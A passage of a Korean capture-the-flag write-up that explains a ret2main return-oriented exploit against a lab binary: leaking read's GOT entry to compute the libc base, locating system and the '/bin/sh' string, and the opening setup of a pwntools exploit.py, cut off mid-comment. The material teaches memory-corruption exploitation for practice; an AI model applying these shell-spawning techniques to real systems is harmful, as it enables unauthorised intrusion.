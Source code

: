 read 함수가 실행된 후 read 함수의 주소는 GOT에 등록되어 있기 때문에, read 함수의 GOT 값을 읽으면 read 함수의 주소를 구할 수 있다.

#### 3) "/bin/sh" 문자열
```
pwndbg> search "/bin/sh"
Searching for value: '/bin/sh'
libc.so.6       0x7ffff7f5d678 0x68732f6e69622f /* '/bin/sh' */
```

libc.so.6 라이브러리에 존재한다. 하지만 이 영역은 ASLR 의 영향을 받기 때문에, 위의 system 함수와 동일하게 Base 주소 + "/bin/sh" 문자열 offset 으로 주소를 구해야 한다.

"/bin/sh" 문자열의 offset은 아래 코드를 통해 구할 수 있다.  
pwntools의 ELF 를 사용하여 libc를 불러온 후, libc에서 search 메서드 함수를 사용한다.

```
from pwn import *

libc = ELF("./libc.so.6", checksec=False)
sh = list(libc.search(b"/bin/sh"))[0]
```

#### 4) 시나리오

라이브러리의 Base 주소를 모르기 때문에 바로 system("/bin/sh") 를 실행하기는 어려움이 있다. 따라서 ret2main기법을 사용하겠다.

ret2main 기법은 원하는 정보를 얻은 후, 다시 main 함수로 돌아와 원하는 명령을 계속 이어가는 기법이다.

먼저 write 함수를 이용해 라이브러리의 Base 주소 libc base 를 구한 후, 그를 이용해 system 함수와 "/bin/sh" 주소를 계산한 후, 두 번째 main 함수 실행 시 system("/bin/sh")를 실행할 계획이다.

**libc base 구하기**
- write(1, read@got, 8)
	- read@got 값을 출력하여 read 함수 주소 획득
- libc base = read address - read offset
	- read 함수의 주소에서 offset을 빼서 libc base 구하기
**system 함수 주소 구하기**
- system = libc base + system offset
**"/bin/sh" 주소 구하기**
- "/bin/sh" = libc base + "/bin/sh" offset
**ret2main**
write(1, read@got, 8) 의 코드 이후 main 의 주소를 넣어서 RET 를 조작하면 main 함수로 돌아올 수 있다.
**셸 획득**
위에서 system 함수의 주소와 "/bin/sh" 문자열의 주소를 구했기 때문에, pop rdi; ret 가젯을 이용하면 system("/bin/sh") 를 호출하여 셸을 획득할 수 있다.

#### 5) exploit.py

#### 초기 설정

``` python
# 익스플로잇 개발할 때 프로세스 실행, 소켓 통신, 페이로드 제작, ROP 체인 생성 등을 편하게 해 준다.
from pwn import *

# pwntools 의 success() 는 초록색으로 로그를 출력해 줌.
def slog(symbol, addr):
    return success(symbol + ": " + hex(addr))

# 익스플로잇 실행 중에 송수신하는 패킷, ROP 체인, 페이로드 길이 등을 모두 출력함.
context.log_level = 'debug'

'''
로컬에서 바이너리(./basic_rop_x64)를 직접 실행하고 그 프로세스와 상호작용할 수 있게 함.
p 객체는 이 프로세스와의 입출력을 담당(예: p.sendline(), p.recvuntil())

바이너리를 ELF 객체로 로드
e.symbols["main"], e.got["puts"], e.plt["system"] 같은 심볼 / 주소 접근 가능
e 는 프로그램 자체의 ELF 정보 저장
```